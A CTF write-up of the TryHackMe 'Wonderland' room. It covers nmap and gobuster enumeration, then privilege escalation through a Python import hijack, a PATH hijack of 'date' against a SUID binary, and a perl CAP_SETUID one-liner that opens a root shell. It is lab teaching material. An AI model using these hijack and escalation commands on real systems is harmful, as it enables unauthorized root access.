 ```yaml
---
title: Wonderland
published: 2023-09-20
description: 'A writeup of the tryhackme room wonderland'
image: ''
tags: [Tryhackme]
category: 'Writeups'
project: 'Tryhackme Writeups'
draft: false 
---
```

# Wonderland Room Writeup

## Enumeration

```BASH
sudo nmap -oA nmap/wonderland -sV -sC -sS -vv -T4 10.10.130.143
```
```BASH
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

```BASH
gobuster dir -e -u http://10.10.130.143/ -w /usr/share/wordlists/dirb/common.txt -t40
```
We find `/r` with a message telling us to keep going, let's try adding `/r` to our url.

```BASH
gobuster dir -e -u http://10.10.130.143/r/ -w /usr/share/wordlists/dirb/common.txt -t40
```

```BASH
gobuster dir -e -u http://10.10.130.143/r/a/ -w /usr/share/wordlists/dirb/common.txt -t40
```

We get another message to keep going... repeating the same we get `/r/a/b/`. Seeing the pattern, navigate to `/r/a/b/b/i/t`. Right click to inspect the page, and you should find some credentials in a hidden `<p>` tag.

SSH into the machine with these credentials. Try and `cat` the user flag and you will be denied. Thinking of the hint "everything is upside down", navigate to `/root` for the user flag.

Running `sudo -l`, we are able to execute `walrus_and_the_carpenter.py` as rabbit. Since we are unable to edit this file, it does not seem very useful. However, we do see the file imports the random python library. We can create a local file in the same directory `random.py`, this will override the import statement to import our file and not the random library. We can use this to gain a shell as rabbit:

```python
import os 

os.system("/bin/bash")
```

In rabbit's home directory we see a SUID binary. When run, it asks us to be polite and ask for some tea. However this gets us nowhere. We notice the program is outputing today's date at the top. `cat` the binary and notice `date` as a variable.

We can create `date` as a file, and add its directory to $PATH to override the `date` variable.

date
```BASH
#!/bin/bash
/bin/bash
```

```BASH
rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
```

Now we have another shell, but this time we are the `hatter` user. Navigating to their home directory we find their password, ssh back into the machine for a better shell.

Capabilities are privellges for processes or binaries. Let's look for them on our machine

```BASH
getcap -r / ls 2>/dev/null
```

We see the `CAP_SETUID` is set on the perl binary.

```BASH
-rwxr-xr-- 2 root   hatter   2097720 Nov 19  2018 perl
```

Taking a look on [gtfoBins](https://gtfobins.github.io/gtfobins/perl/) we can execute the following command for a root shell. From there, recall the root.txt file is in alice's home directory.

```BASH
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```